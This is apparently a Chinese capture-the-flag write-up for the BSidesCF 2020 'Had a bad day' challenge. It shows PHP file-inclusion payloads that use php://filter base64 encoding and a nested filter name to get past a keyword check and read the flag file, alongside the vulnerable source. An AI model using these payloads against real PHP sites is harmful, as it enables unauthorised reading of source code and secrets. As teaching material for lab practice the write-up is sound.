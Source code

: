 # \[BSidesCF 2020]Had a bad day

## \[BSidesCF 2020]Had a bad day

## 考点

* 文件包含配合伪协议读取文件
* php://filter伪协议特性
* file\_get\_contents特性

## wp

![](<../../.gitbook/assets/image (4).png>)

两个按钮，点一下，页面跳转到index.php?category=woofers

尝试php伪协议文件包含，`index.php?category=php://filter/read=convert.base64-encode/resource=index.php`，得到报错无法包含<mark style="color:red;">index.php.php</mark>

![](<../../.gitbook/assets/image (9) (1) (1).png>)

改一下payload，`index.php?category=php://filter/read=convert.base64-encode/resource=index`

```php
<?php
$file = $_GET['category'];
if(isset($file))
{
if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
            include ($file . '.php');
}else{
echo "Sorry, we currently only support woofers and meowers.";
}
}
?>
```

要包含的文件名中必须含有woffers或meowers或index

这里就用php://filter伪协议的特性，可以在协议上套一层协议，并且遇到识别不了的会自动过滤

`index.php?category=php://filter/convert.base64-encode/write=woofers/resource=flag`

`index.php?category=php://filter/convert.base64-encode/woofers/resource=flag`

## 小结

1. php://filter伪协议遇到识别不了的协议或过滤器会自动过滤，比如`php://filter/convert.base64-encode/write=woofers/resource=flag`会自动过滤`write=woofers`
2. file\_get\_contents在遇到无法识别的协议时，会把它当做目录处理

```php
$a = file_get_contents("a/://github/../../../2.txt");
echo $a;
$a = file_get_contents("http(://github/../../2.txt");
echo $a;
// 123
```

目录结构如下

* index.php
* 2.txt
